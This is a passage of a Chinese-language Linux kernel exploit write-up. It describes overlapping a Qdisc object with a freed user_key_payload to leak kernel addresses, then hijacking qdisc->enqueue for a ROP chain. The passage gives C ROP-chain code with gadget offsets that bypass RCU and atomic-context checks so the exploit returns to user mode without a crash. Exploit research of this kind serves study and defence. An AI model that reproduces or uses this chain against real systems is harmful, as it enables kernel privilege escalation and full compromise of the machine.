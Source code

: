 ​​​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b59dafd156b976bed6282fa8e43d3d5ff56b1452.png)​​​

然后用 Qdisc 对象占位 user\_key\_payload，再读取 user\_key\_payload 就能泄露出需要的地址。

​​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-6ee72fecbf68d5f276026d96ba7fc212d00f6b11.png)​​

‍

然后释放 key ，再重新占位就能控制 Qdisc ，劫持 qdisc-&gt;enqueue 实现 ROP

​![image](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-27f1829330f25cc7640fa0ccb1d3fff2c2670d06.png)​

‍

由于 qdisc-&gt;enqueue 在 中断上下文（原子上下文） 和 RCU 临界区中执行，所以在 ROP 返回用户态前需要设置一些字段避免内核崩溃：

- "Illegal context switch in RCU read-side critical section"
- "BUG: scheduling while atomic: \[...\]"

‍

绕过 RCU 临界区的检测，设置：​`current->rcu_read_lock_nesting = 0`​

```C
    // current = find_task_by_vpid(getpid())
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = getpid();                   // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
    rop[idx++] = 0x46c;                      // offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff8107befa; // add rax, rsi ; jmp 0xffffffff82404440 (retpoline)

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8167104b; // mov qword ptr [rax], rcx ; jmp 0xffffffff82404440 (retpoline)
```

绕过原子上下文的检测：

```C
    // Bypass "schedule while atomic": set oops_in_progress = 1 
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // 1
    rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff8419f478; // oops_in_progress
    rop[idx++] = kbase + 0xffffffff81246359; // mov qword ptr [rsi], rdi ; jmp 0xffffffff82404440 (retpoline)
```

‍

完整的 ROP 链
